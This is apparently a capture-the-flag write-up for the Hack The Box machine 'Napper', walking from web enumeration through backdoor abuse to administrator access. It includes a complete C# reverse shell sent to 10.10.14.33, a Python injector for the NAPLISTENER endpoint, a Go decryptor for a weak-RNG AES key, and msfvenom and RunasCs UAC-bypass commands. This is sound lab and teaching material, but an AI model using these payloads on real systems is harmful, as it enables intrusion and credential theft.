


# Napper

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.212.24                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-13 06:54 EST
Nmap scan report for 10.129.212.24
Host is up (0.0085s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
7680/tcp open  pando-pub
```

Did a detailed scan as well:

```
$ nmap -p 80,443,7680 -sC -sV --min-rate 3000 10.129.212.24     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-13 06:56 EST
Nmap scan report for 10.129.212.24
Host is up (0.0072s latency).

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to https://app.napper.htb
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/http   Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Hugo 0.112.3
| ssl-cert: Subject: commonName=app.napper.htb/organizationName=MLopsHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:app.napper.htb
| Not valid before: 2023-06-07T14:58:55
|_Not valid after:  2033-06-04T14:58:55
|_ssl-date: 2023-11-13T11:56:35+00:00; -14s from scanner time.
|_http-title: Research Blog | Home 
|_http-server-header: Microsoft-IIS/10.0
| tls-alpn: 
|_  http/1.1
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -14s
```

I added `app.napper.htb` and `napper.htb` to the `/etc/hosts` file before proceeding with web enumeration.

### Web Enum -> Subdomain Enumeration

The website was a security research blog:


There was nothing interesting about the content written there, so I proceeded with the usual fuzzing via `wfuzz` and `gobuster`, with the former finding another subdomain.

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.napper.htb' --hl=186 -u https://napper.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://napper.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000387:   401        29 L     100 W      1293 Ch     "internal"
```

Visiting this required credentials, which I did not have yet. Looking around at the posts on the blog, I figured the credentials had to be somewhere within one of the posts.

One of the posts was about setting up basic authentication on IIS:


And within that blog, there was an `example` user used:


I found that `example:ExamplePassword` worked in authenticating to the `internal` subdomain.


This page contained some exclusive information about the website, including some kind of backdoor available.


TLDR, here are the interesting parts:


```
[...] HTTP listener written in C#, which we refer to as NAPLISTENER. Consistent with SIESTAGRAPH and other malware families developed or used by this threat, NAPLISTENER appears designed to evade network-based forms of detection.  [...]
```




```
This means that any web request to /ews/MsExgHealthCheckd/ that contains a base64-encoded .NET assembly in the sdafwe3rwe23 parameter will be loaded and executed in memory. It's worth noting that the binary runs in a separate process and it is not associated with the running IIS server directly.
```



So, I needed a `base64` encoded .NET binary to run here. The references were pretty important to read as well:



This basically told us how the binary works, and the value submitted in the parameter will have an assembly object created and executed it using the `Run` method. The resources were incredibly detailed, so I figured that the exploit used here has to be similar as well.

The blog also contained a nice Python Poc to run payloads:


## Payload Creation -> Reverse Shell

I used a basic reverse C# reverse shell that executed `powershell.exe` (as `cmd.exe` didn't work for some reason). The code must have a class called `Run` and a constructor for it.

```cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace payload
{
    public class Run
    {
        static StreamWriter streamWriter;
        public Run() 
        {
            using(TcpClient client = new TcpClient("10.10.14.33", 443))
            {
                using(Stream stream = client.GetStream())
                {
                    using(StreamReader rdr = new StreamReader(stream))
                    {
                        streamWriter = new StreamWriter(stream);
                        
                        StringBuilder strInput = new StringBuilder();

                        Process p = new Process();
                        p.StartInfo.FileName = "powershell.exe";
                        p.StartInfo.CreateNoWindow = true;
                        p.StartInfo.UseShellExecute = false;
                        p.StartInfo.RedirectStandardOutput = true;
                        p.StartInfo.RedirectStandardInput = true;
                        p.StartInfo.RedirectStandardError = true;
                        p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                        p.Start();
                        p.BeginOutputReadLine();

                        while(true)
                        {
                            strInput.Append(rdr.ReadLine());
                            //strInput.Append("\n");
                            p.StandardInput.WriteLine(strInput);
                            strInput.Remove(0, strInput.Length);
                        }
                    }
                }
            }
        }
        public static void Main(string[] args)
        {
            Run runInstance = new Run();
        }

        private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

    }
}
```

Afterwards, I used `mono` to compile the program to get `payload.exe`.

```
$ mcs payload.cs           
payload.cs(52,17): warning CS0219: The variable `runInstance' is assigned but its value is never used
payload.cs(67,34): warning CS0168: The variable `err' is declared but never used
Compilation succeeded - 2 warning(s)
```

The next step would be to encode this using `base64` and plop it in our `inject.py`. 

```
$ base64 -w0 payload.exe| xclip -sel clip
```

Here's the final `inject.py` script:

```python
import requests
from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)
payload="<PAYLOAD HERE>"

hosts =["napper.htb"]
form_field=f"sdafwe3rwe23={requests.utils.quote(payload)}"
for h in hosts:
        url_ssl= f"https://{h}/ews/MsExgHealthCheckd/"
        try:
                r_ssl=requests.post(url_ssl,data=form_field,verify=False)
                print(f"{url_ssl} : {r_ssl.status_code}{r_ssl.headers}")
        except KeyboardInterrupt:
                exit()
        except Exception as e:
                print(e)
                pass
```

Upon running, it returns some headers:

```
$ python3 inject.py
https://napper.htb/ews/MsExgHealthCheckd/ : 200{'Content-Length': '0', 'Content-Type': 'text/html; charset=utf-8', 'Server': 'Microsoft-IIS/10.0 Microsoft-HTTPAPI/2.0', 'X-Powered-By': 'ASP.NET', 'Date': 'Tue, 14 Nov 2023 03:04:24 GMT'}
```

More importantly, I got a reverse shell as the `ruben` user:


## Privilege Escalation

In the first `nmap` scan I did, port 7680 was listening. Checking the output of `netstat -a`, I saw some other ports that were open:

```
PS C:\Users\ruben> netstat -a
Active Connections
  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             napper:0               LISTENING
  TCP    0.0.0.0:135            napper:0               LISTENING
  TCP    0.0.0.0:443            napper:0               LISTENING
  TCP    0.0.0.0:445            napper:0               LISTENING
  TCP    0.0.0.0:5040           napper:0               LISTENING
  TCP    0.0.0.0:7680           napper:0               LISTENING
  TCP    0.0.0.0:49664          napper:0               LISTENING
  TCP    0.0.0.0:49665          napper:0               LISTENING
  TCP    0.0.0.0:49666          napper:0               LISTENING
  TCP    0.0.0.0:49667          napper:0               LISTENING
  TCP    0.0.0.0:52629          napper:0               LISTENING
  TCP    10.129.42.24:139       napper:0               LISTENING
  TCP    10.129.42.24:57064     10.10.14.33:https      ESTABLISHED
  TCP    127.0.0.1:9200         napper:0               LISTENING
  TCP    127.0.0.1:9200         app:57065              ESTABLISHED
  TCP    127.0.0.1:9300         napper:0               LISTENING
```

Interesting. There was also a directory within `C:\Temp` that was not the default:

```
PS C:\Temp> dir
    Directory: C:\Temp
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          6/9/2023  12:18 AM                www

PS C:\Temp\www> dir
    Directory: C:\Temp\www
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          6/9/2023  12:18 AM                app                                                                  
d-----          6/9/2023  12:18 AM                internal
```

Witin the `internal` directory, I looked around and found some interesting files:

```
PS C:\Temp\www\internal\content\posts\internal-laps-alpha> dir
    Directory: C:\Temp\www\internal\content\posts\internal-laps-alpha
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----          6/9/2023  12:28 AM             82 .env                                                                 
-a----          6/9/2023  12:20 AM       12697088 a.exe                                                                
type .env
PS C:\Temp\www\internal\content\posts\internal-laps-alpha> type .env
ELASTICUSER=user
ELASTICPASS=DumpPassword\$Here
ELASTICURI=https://127.0.0.1:9200
```

It seems that Elastic is running on the machine on port 9200, and there's also a weird `a.exe` binary present. Running it does nothing though.

### Elastic + Reversing 

Firstly, I used `chisel` to forward port 9200 to my machine. 

```bash
# on kali
./chisel server --port 4444 --reverse

# on machine
cmd /c .\chisel.exe client 10.10.14.33:4444 R:9200:127.0.0.1:9200
```

When I visited `https://localhost:9200`, it required credentials to get in. Fortunately, `C:\Program Files` contained some Elastic files.

```
PS C:\Program Files> dir
    Directory: C:\Program Files
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          6/7/2023   6:39 AM                Common Files                                                         
d-----          6/8/2023   3:20 AM                elasticsearch-8.8.0 
<TRUNCATED>
```

Spent like an hour here trying to find out the correct password. Ended up doing `Get-ChildItem -Recurse | Select-String -Pattern "password" -List` and just going through each line until I found this:

```
finish...Failed starting Java.serviceStopStopping service...Failed to create process.Service 
started in %d milliseconds.Failed to execute process.%d
data\indices\n5Gtg7mtSVOUFiVHo9w-Nw\0\index\_jc.cfs:21:?metadata":{},"realm":"__attach"Z▒?}}?reserv?5ed-user-
elasticI{"password":"oKHzjZw0EGcRxT2cux5K","enabled":true,"[?reserved-user"}?
```

I tried a username of `user` and `elastic` with this password, and `elastic` worked.



Still wasn't sure what this stuff was for though. I tried making a query via `_search`:


Got some encoded blob here. Interestingly, this blob changes each time, and it is not fixed. This might be a password of some sorts.

Anyways, time to take a look at the binary, which was built in Golang based on `ghidra`. 


I was unable to decode anything meaningful using it, so I looked online to see if there were any plugins or alternatives I could use. Apparently, there's a Golang extension for `ghidra`.



After downloading this extension and restarting `ghidra`, a new window popped up.


The binary took a bit longer to analyse. Within the `main` function, I saw this:


Seems that the binary is attempting to executing `cmd.exe /c net user backup`. There was also this part that was encrypting something:


Based on all of the information, it seems that the `seed` used for random generation and some encrypted blob was on Elastic, and it might be a password for the `backup` user.

### Password Decryption -> Root

The blob and seed used was changing every 5 minutes on Elastic. This is the key generation algorithm:



The key is just `1 + rand.Intn(254)`. Since this uses AES, the IV should be part of the encrypted blob as well.


Based on the fact that the seed is given, I'm assuming insecure RNG is used and the `rand` parts are actually deterministic. Based on this fact, I ChatGPT-d a Go script to run and decrypt the password:

```go
package main

import (
"crypto/aes"
"crypto/cipher"
"encoding/base64"
"fmt"
"math/rand"
"strconv"
)

func generate(seed int64) []byte {
  rand.Seed(seed)
  key := make([]byte, 16)
  for i := range key {
    key[i] = byte(1 + rand.Intn(254))
  }
  return key
}

func decrypt(iv, ciphertext, key []byte) ([]byte, error) {
  block, err := aes.NewCipher(key)
  if err != nil {
    return nil, err
  }

  stream := cipher.NewCFBDecrypter(block, iv)
  plaintext := make([]byte, len(ciphertext))
  stream.XORKeyStream(plaintext, ciphertext)

  return plaintext, nil
}

func main() {
  var seed string
  var encrypted string

  seed = "<CHANGEME>"
  encrypted = "<CHANGEME>"

  seedint, err := strconv.ParseInt(seed, 10, 64)
  key := generate(seedint)

  decoded, err := base64.URLEncoding.DecodeString(encrypted)
  if err != nil {
    fmt.Println("Error decoding base64:", err)
    return
  }

  iv := decoded[:aes.BlockSize]
  enc_pass := decoded[aes.BlockSize:]

  decrypted, err := decrypt(iv, enc_pass, key)
  if err != nil {
    fmt.Println("Error decrypting data:", err)
    return
  }
  fmt.Printf("Password: %s\n", decrypted)
}
```

When run, it produces this output:

```
$ go run password.go
Password: qlYCiZFDaRZhnCULUxjxChrntdAfHCmVVwHFnVxS
```

Using this password, `RunasCs.exe` can be used to gain execution as the `backup` user.


Afterwards, I can easily use this to get a shell as the `backup` user via another `msfvenom` shell.

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.33 LPORT=443 -f exe > rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

```
PS C:\Windows\Tasks> .\RunasCs.exe backup MIyyiyRRzoVlWgAAAkhalIjDWQtjhQJokfREfuyC C:\Windows\Tasks\rev.exe --bypass-uac --logon-type '8'
```


As `backup`, I was given full privileges to the machine:

```
C:\Windows\system32>whoami /priv
whoami /priv                                                                                 
                                                                                             
PRIVILEGES INFORMATION                                                                       
----------------------                                                                       
                                                                                             
Privilege Name                            Description                                                        State                                                                        
========================================= ================================================================== =======                                                                      
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

The user is also part of the Administrators group:

```
C:\Windows\system32>net user backup
net user backup
User name                    backup
Full Name                    backup
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/13/2023 8:49:00 PM
Password expires             Never
Password changeable          11/13/2023 8:49:00 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   11/13/2023 8:51:47 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *None                 
The command completed successfully.
```

I could read the `root.txt` flag, meaning this machine was effectively rooted since `backup` was an administrator.